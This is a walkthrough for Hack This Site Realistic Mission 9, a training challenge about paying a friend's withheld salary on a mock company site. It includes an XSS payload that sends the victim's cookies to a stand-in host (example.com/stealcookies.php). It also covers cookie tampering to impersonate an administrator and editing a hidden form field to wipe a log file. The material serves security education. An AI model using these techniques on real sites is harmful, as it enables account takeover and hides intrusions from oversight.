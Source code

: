 # Mission 9
https://www.hackthissite.org/playlevel/9/

- [Overview](#overview)
- [Solution](#solution)
  * [Details From the Site Layout](#details-from-the-site-layout)
  * [Paying Our Friend's Salary](#paying-our-friend-s-salary)
    + [Stealing Your Boss' Cookies](#stealing-your-boss--cookies)
  * [Clearing the Logs](#clearing-the-logs)
- [Key Concepts](#key-concepts)
- [Key Ideas](#key-ideas)

## Overview
The boss over at CrappySoft has stopped paying his employees, and your friend is in need of money, fast. Help them get their salary paid.

Message: Hey man,
I've heard you're good at hacking, and on the right side of things. So I came looking for you. I really need help, you see, my boss has stopped paying our salaries and I'm going to miss my rent! Please help me get my money, you can reach the site at Crappy Soft. They have an online payment system, but only he can use it. Maybe you can get into his account somehow, but for now you can use mine:

Username: r-conner@crappysoft.com
Password: ilovemywork

Thanks man, good luck.

## Solution
### Details From the Site Layout
Before focusing on paying the salary let's take stock of the site itself. Take a look at the pages we can access without needing to log in. Contact leads to a generic form to send a message to the company, nothing fancy there. But the Mailing List and Demo pages drop an important clue. On the Mailing List page, it's the form which has this line: `<input type="hidden" name="strFilename" value="./files/mailinglist/addresses.txt">`. On the Demo page, the download link has this line: `<a href="./files/downloads/CrappyDemo.exe.zip"><font color="BLACK"><b>HERE!</b></font></a>`.

Try accessing https://www.hackthissite.org/playlevel/9/files/ and boom, directory listing is on. Click through the folders and you'll notice a log file at ./files/logs/logs.txt. It seems to record login data. Thinking back to our steps in [Realistic Mission 8](https://github.com/jasonally/hack_this_site_missions/blob/master/realistic/mission_08.md), we'll probably need to clear logs in this mission as well once we pay our friend.

We've learned an important insight, but for now, let's focus on paying our friend's salary.

### Paying Our Friend's Salary
Log into our friend's account from the CrappySoft homepage using the account credentials he provided. Once we're logged in, you'll notice a cookie gets saved to our browser with the following information:
* intID, currently equal to 2
* strPassword, which seems to be the MD5 hash of our friend's password
* strUsername, which is set to r-conner%40crappysoft.com (note the URL encoding for the @ sign)

There's also now a link on the lefthand side of the page labeled Pay Salaries. Click it right now and you'll get a message saying: You are not an administrator.

I spent a while looking into [privilege escalation](https://portswigger.net/web-security/access-control), my thinking being that maybe there was some way to give our friend's account administrator privileges and then be able to pay his salary. That approach didn't really pan out, but it turns out I was on the right track.

#### Stealing Your Boss' Cookies
It turns out there's more than you might initially think to the site's Private Message functionality. The functionality is actually vulnerable to a [Cross-Site Scripting](https://en.wikipedia.org/wiki/Cross-site_scripting) (XSS) attack, meaning we can inject JavaScript into a page and execute it in another user's browser. In this case, we can use XSS to steal the boss' login cookie.

Compose a message to m-crap (owner), add a subject, add the following message body, and click Send:
`javascript:void(window.location='http://example.com/stealcookies.php?'+document.cookie)`

It's beyond the scope of this mission to actually execute an XSS attack, so we've got to simulate it and think through it to the best of our ability. When the boss opens your message, his browser will execute this code (because the web application doesn't properly filter out rogue JavaScript) and it will redirect his browser to http://example.com/stealcookies.php?[his_login_cookie]. In this simulation the idea would be that you control the site in question – which in this case is example.com – and stealcookies.php is a script which would save your boss' cookie for you to retrieve later. The script might just save the data to a database, it might email it to you, or something along those lines.

Once you send the message you'll see some more text appear on the page saying something like this:\
It's beyond the scope of this mission to check the XSS. So, assume you got this cookie:\
strUsername=m-crap%40crappysoft.com; strPassword=94a35a3b7befff5eb2a8415af04aa16c; intID=1;

Again, it's beyond the scope of this mission for us to actually execute a XSS attack, so we just got the cookie information provided to us. We could have probably guessed the boss would have intID=1, but we wouldn't have known his password (either the plain text version or the hashed version). But now we've got it all. Update your cookie to reflect the indID, strPassword, and strUsername values we've now obtained and we're now effectively logged in as the boss. Click the Pay Salaries link and click the Pay button next to your friend's email address to pay him.

### Clearing the Logs
Once we've paid our friend we'll see a message telling us to clean the logs by subscribing to them. This goes back to what we saw earlier, before logging in. We need to clear the site logs to help cover our tracks.

Luckily, our initial investigation makes it much easier for us to figure out how to accomplish these steps. If we go to the Mailing List page, there's this message:
(Note: This adds your email to the list, and at the same time, checks the list for anything without the '@' character and deletes it.)

We identified previously that the logs file we're trying to clear is located at ./files/logs/logs.txt. So, change the value of the hidden input type to that file path, click Subscribe, and you're done. This functionality will clear the log file and we've completed the mission.

## Key Concepts
Cookie tampering\
Cookie stealing\
Cross-site scripting (XSS)

## Key Ideas
It shouldn't be so easy for someone to tamper with a cookie, and that was what really allowed us to complete the mission. Modern practices call for things like authentication cookies which the backend validates to make sure a user isn't editing a cookie's values in their browser.

But this mission also gave us an example of XSS, which continues to be a major web security issue. Any time someone can inject rogue JavaScript onto a page which can then be executed in the browser of another user, that's a big problem. There's no shortage of malicious things an attacker can do using an XSS bug, but stealing cookies is a common one. That's why companies often allocate major resources -- including paying cash rewards -- to people who identify and report XSS vulnerabilities.
